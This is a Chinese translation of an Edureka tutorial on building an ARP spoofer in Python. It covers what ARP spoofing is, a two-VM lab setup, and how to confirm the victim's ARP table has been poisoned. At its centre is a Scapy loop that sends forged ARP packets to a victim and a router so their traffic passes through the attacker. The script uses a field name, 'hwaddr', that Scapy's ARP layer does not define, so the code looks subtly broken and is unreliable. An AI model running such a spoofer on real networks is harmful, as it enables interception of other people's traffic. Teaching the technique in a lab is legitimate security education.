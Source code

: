 # ARP 欺骗——用 Python 实现道德黑客的自动化

> 原文：<https://www.edureka.co/blog/python-arp-spoofer-for-ethical-hacking>

当你告诉别人你是一个道德黑客，他们会把你当成某种巫师看待。好吧，这就是做一个有道德的黑客:有知识，有能力，有良心去做正确的事情！就像巫师的魔杖一样，Python 让有道德的黑客变得更加强大。在上一个教程中，你看到了如何使用 Python 编写一个 MacChanger 。在本教程中，您将看到 Python 如何用于 **ARP 欺骗**。

*对网络安全感兴趣？查看现场[网络安全培训](https://www.edureka.co/cybersecurity-certification-training)。*

我将讲述以下主题:

*   [什么是 ARP 欺骗？](#WhatisARPSpoofing)
*   [写一个 ARP 欺骗器](#WritinganARPSpoofer)

我知道你们都在炒作道德黑客自动化，但首先，你们应该知道什么是 ARP 欺骗。

## **什么是 ARP 欺骗？**

如今每个人都在使用 WiFi，你也是其中之一。你知道当你连接到路由器时数据是如何流动的吗？您的系统和路由器附带有 IP 地址。当您连接到路由器时，数据流在两个 IP 地址之间流动。路由器向您系统的 IP 地址发送数据，您的系统也向路由器的 IP 地址发送数据。

**ARP 欺骗**是一种通过伪造 IP 地址将网络流量重定向到黑客的技术。太技术化？让我为你使它变得简单。当一个系统和路由器之间(基本上是两个 IP 地址之间)有连接时，黑客会伪造他/她的 IP 地址。黑客会告诉 1)路由器他/她是系统，2)系统他/她是路由器。现在路由器会把数据发给黑客而不是系统，系统会把数据发给黑客而不是路由器。因此，网络流经黑客。

在道德黑客攻击中，匿名只是一件简单的事情。如果你对这个领域感兴趣，请查看直播 [CompTIA Security+认证](https://www.edureka.co/comptia-security-plus-certification-training) 。

![arp spoofing - edureka](img/d00492182e7c4a5f6e10b3a9f05b2350.png)

现在我们知道了什么是 ARP 欺骗器，让我们用 Python 来构建它们吧！

## **写一个 ARP 欺骗器**

当我向您解释 ARP 欺骗时，我告诉过您它会重定向流量。要进行 ARP 欺骗，我们需要 3 个节点。一个是黑客节点，另外两个是系统，它们之间有一些通信。

对于本教程，我将使用虚拟机来创建节点。我将运行两台虚拟机，其中一台是黑客，另一台是受害者。第三个节点呢？嗯，那将是虚拟机连接到的路由器。

我的设置如下:我有两台连接到路由器的虚拟机。

在我们写一个 ARP 欺骗器之前，我们需要得到一些数据。因为黑客系统会伪造它的 IP 地址，我们应该知道路由器和受害者系统的 IP 地址和 MAC 地址。

要找到受害者和路由器的 IP 地址，从黑客的机器上运行以下命令:

```
$ arp -a
```

这将列出该网络中所有系统的 IP 地址和 MAC 地址。

![arp findip - arp spoofing - edureka](img/2d725eebc2f1cfd85e7c9f5c43c73131.png)

在这里，网关是路由器，对于这个演示，我将选择 IP 地址为 **192.168.111.157** 的系统作为受害者。

运行 ARP 欺骗器后，我们需要一种方法来验证我们的 ARP 欺骗器是否工作。在现实世界中，ARP 欺骗的成功/失败取决于黑客系统的输出。但是对于这个演示，我们将使它变得简单。由于我们正在运行虚拟机，我将切换到受害者系统并检查路由器的 MAC 地址。

为此，在受害者系统的终端中运行以下命令:

```
$ arp -a
```

![arp-victim2-arp spoofing-edureka](img/97e5463db6015607844e68fee7b2f431.png)

查看路由器的 MAC 地址，这将在我们运行脚本后改变。

现在我们有了欺骗所需的数据，我们准备编写一个 ARP 欺骗器。

要写一个针对 ARP 欺骗的欺骗器，我们来运行 PyCharm。要启动 PyCharm，请转到 PyCharm 被解压缩的目录并运行 shell 脚本。

```
$ cd pycharm-community-2018.3.4/ 
$ cd bin/
$ ./pycharm.sh
```

您将看到 PyCharm 的欢迎屏幕。点击**【创建新项目】**

![new project pycharm - arp spoofing - edureka](img/589df0aef350a0706ee298de3eab6d42.png)

输入项目的名称。我将这个命名为 **arp_spoof。**然后点击**创建**。

![new file pycharm - arp-spoofing - edureka](img/4f0d79c6792249037189ef6b3d97c1f4.png)

现在你将看到工作场所。接下来，让我们创建一个 Python 文件。要做到这一点，右击项目名称，进入“**新建**，点击“ **Python 文件**”。现在，您可以在这里编写 Python 脚本。

我正在编写的 ARP 欺骗器将使用 Python 的 **Scapy** 模块，这是一个数据包操作工具。

下面是 ARP 欺骗器的 Python 脚本:

```
import scapy.all as scap

while True:
    packet = scap.ARP(op=1, pdst="192.168.111.157", hwaddr="00:0c:29:1e:76:af", psrc="192.168.111.2")
    scap.send(packet) #Packet telling the Victim (with ip address 192.168.111.157) that the hacker is the Router.

    packet = scap.ARP(op=1, pdst="192.168.111.2", hwaddr="00:50:56:e7:86:57", psrc="192.168.111.157")
    scap.send(packet) #Packet telling the Router (with ip address 192.168.111.2) that the hacker is the Victim.
```

运行此脚本，网络将被重定向。让我们来验证它是否真的有效。在受害者的系统中，运行以下命令:

```
$ arp -a
```

![arp victim2 - arp spoofer - edureka](img/653f060a0d1866dde400f57b9f658646.png)

可以看到路由器 IP 的 MAC 地址被改成了黑客系统的 MAC 地址。这意味着网络被重定向到黑客，来自受害者系统的数据被黑客系统认为是路由器。

*恭喜恭喜！您已经用 Python 编写了一个 ARP 欺骗器，并看到了它的运行。现在您已经知道 Python 如何有益于道德黑客，学习更多的模块、命令，并开始使用 Python 自动化道德黑客。*

*有问题吗？请将它发布在 [Edureka 社区](https://edureka.co/community)上，我们将会回复您。*

如果您希望学习网络安全，并在网络安全领域建立丰富多彩的职业生涯，那么请查看我们的 [***网络安全认证培训***](https://www.edureka.co/cybersecurity-certification-training) ，该培训带有讲师指导的现场培训和真实项目体验。本培训将帮助您深入了解网络安全，并帮助您掌握该主题。

*您还可以看看我们新推出的关于 [**CompTIA Security+认证**](https://www.edureka.co/comptia-security-plus-certification-training) 的课程，这是 Edureka & CompTIA Security+首次与官方合作。它为您提供了一个获得全球认证的机会，该认证侧重于安全和网络管理员不可或缺的核心网络安全技能。*

通过 Edureka 的 [**研究生项目** 和 **NIT Rourkela**](https://www.edureka.co/post-graduate/cybersecurity) 以正确的方式学习网络安全，保护世界上最大的公司免受网络钓鱼者、黑客和网络攻击。